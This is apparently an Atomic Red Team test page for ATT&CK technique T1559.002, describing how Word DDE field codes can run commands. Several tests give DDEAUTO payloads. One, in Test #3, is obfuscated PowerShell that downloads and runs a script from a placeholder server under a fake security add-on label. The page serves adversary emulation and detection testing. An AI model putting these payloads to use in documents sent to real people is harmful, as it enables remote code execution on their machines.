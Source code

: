 # T1559.002 - Dynamic Data Exchange
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1559.002)
<blockquote>Adversaries may use Windows Dynamic Data Exchange (DDE) to execute arbitrary commands. DDE is a client-server protocol for one-time and/or continuous inter-process communication (IPC) between applications. Once a link is established, applications can autonomously exchange transactions consisting of strings, warm data links (notifications when a data item changes), hot data links (duplications of changes to a data item), and requests for command execution.

Object Linking and Embedding (OLE), or the ability to link data between documents, was originally implemented through DDE. Despite being superseded by [Component Object Model](https://attack.mitre.org/techniques/T1559/001), DDE may be enabled in Windows 10 and most of Microsoft Office 2016 via Registry keys. (Citation: BleepingComputer DDE Disabled in Word Dec 2017) (Citation: Microsoft ADV170021 Dec 2017) (Citation: Microsoft DDE Advisory Nov 2017)

Microsoft Office documents can be poisoned with DDE commands (Citation: SensePost PS DDE May 2016) (Citation: Kettle CSV DDE Aug 2014), directly or through embedded files (Citation: Enigma Reviving DDE Jan 2018), and used to deliver execution via [Phishing](https://attack.mitre.org/techniques/T1566) campaigns or hosted Web content, avoiding the use of Visual Basic for Applications (VBA) macros. (Citation: SensePost MacroLess DDE Oct 2017) DDE could also be leveraged by an adversary operating on a compromised machine who does not have direct access to a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execute Commands](#atomic-test-1---execute-commands)

- [Atomic Test #2 - Execute PowerShell script via Word DDE](#atomic-test-2---execute-powershell-script-via-word-dde)

- [Atomic Test #3 - DDEAUTO](#atomic-test-3---ddeauto)


<br/>

## Atomic Test #1 - Execute Commands
Executes commands via DDE using Microsfot Word

**Supported Platforms:** Windows




#### Run it with these steps! 
Open Microsoft Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error "!Unexpected End of Formula", right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }







<br/>
<br/>

## Atomic Test #2 - Execute PowerShell script via Word DDE
When the word document opens it will prompt the user to click ok on a dialogue box, then attempt to run PowerShell with DDEAUTO to download and execute a powershell script

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
start $PathToAtomicsFolder\T1559.002\bin\DDE_Document.docx
```






<br/>
<br/>

## Atomic Test #3 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/theclintox/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows




#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"







<br/>
